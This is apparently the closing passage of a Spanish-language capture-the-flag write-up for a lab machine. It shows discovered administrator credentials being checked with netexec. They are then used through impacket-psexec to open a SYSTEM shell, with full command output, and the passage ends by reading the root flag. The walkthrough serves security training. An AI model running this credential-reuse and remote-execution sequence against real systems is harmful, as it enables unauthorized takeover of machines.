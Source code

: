```shell
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

Parecen credenciales del administrador del sistema.

Las podemos comprobar con `netexec` y son válidas.
```shell
$ nxc smb 10.129.18.0 -u Administrator -p 'u6!4ZwgwOM#^OBf#Nwnh'
SMB         10.129.18.0     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.129.18.0     445    SECNOTES         [+] SECNOTES\Administrator:u6!4ZwgwOM#^OBf#Nwnh (Pwn3d!)
```

Para terminar, teniendo estas credenciales y con `psexec` podemos ganar una consola como `nt authority\system`.

```shell
$ impacket-psexec -target-ip 10.129.18.0 Administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.18.0
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.18.0.....
[*] Found writable share ADMIN$
[*] Uploading file pNVSROjb.exe
[*] Opening SVCManager on 10.129.18.0.....
[*] Creating service vyBL on 10.129.18.0.....
[*] Starting service vyBL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system
```

Podríamos leer la flag de `root`
```powershell
C:\Users\Administrator\Desktop> type root.txt
79da3473ede54ef8...
```

¡Y ya estaría!

Happy Hacking! 🚀